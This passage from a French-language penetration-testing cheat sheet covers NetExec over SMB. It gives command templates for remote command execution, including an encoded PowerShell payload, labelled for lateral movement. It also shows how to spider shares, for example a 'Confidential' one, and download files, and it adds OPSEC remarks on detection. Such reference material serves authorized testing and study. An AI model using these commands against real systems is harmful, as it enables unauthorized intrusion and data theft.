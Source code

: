   

* **Contexte :** Utilisation de modules spécifiques pour rechercher des vulnérabilités connues ou obtenir des informations plus détaillées.

* **Usage :** Identification rapide de failles exploitables ou de configurations dangereuses.

  

#### Exécution de Commandes (`-x`, `-X`, `-M`)

  

```bash

# Exécuter une commande simple via différentes méthodes (SMBExec, WMIExec, ATExec...)

netexec smb <cible> -u <user> -p <pass | -H hash> -x <commande>

# Exemple: netexec smb DC01 -u admin -p P@ss -x "whoami /all"

  

# Exécuter une commande PowerShell plus complexe

netexec smb <cible> -u <user> -p <pass | -H hash> -X 'powershell -enc <base64_payload>'

```

  

* **Contexte :** Permet d'exécuter des commandes à distance sur les cibles où l'authentification réussit.

* **Usage :** Mouvement latéral, exécution de payloads, collecte d'informations supplémentaires.

* **Prérequis :** Droits d'administrateur local sur la machine cible.

* **OPSEC :** L'exécution de commandes est une action très surveillée.

  

#### Accès aux Fichiers et Partages

  

```bash

# Lister récursivement les fichiers/dossiers sur les partages accessibles

netexec smb <cible> -u <user> -p <pass | -H hash> --spider [nom_partage]

# Exemple: netexec smb FS01 -u user -p Pass --spider Confidential

  

# Lister et potentiellement télécharger des fichiers intéressants (plus avancé)

netexec smb <cible> -u <user> -p <pass | -H hash> -M spider_plus [-o READ_ONLY=false DEPTH=2]

# -o READ_ONLY=false : Tente de télécharger les fichiers trouvés

# -o DEPTH=X : Profondeur de la recherche

  

# Télécharger un fichier spécifique

netexec smb <cible> -u <user> -p <pass | -H hash> --get-file '\\<PARTAGE>\<chemin>\fichier.txt' fichier_local.txt

  

```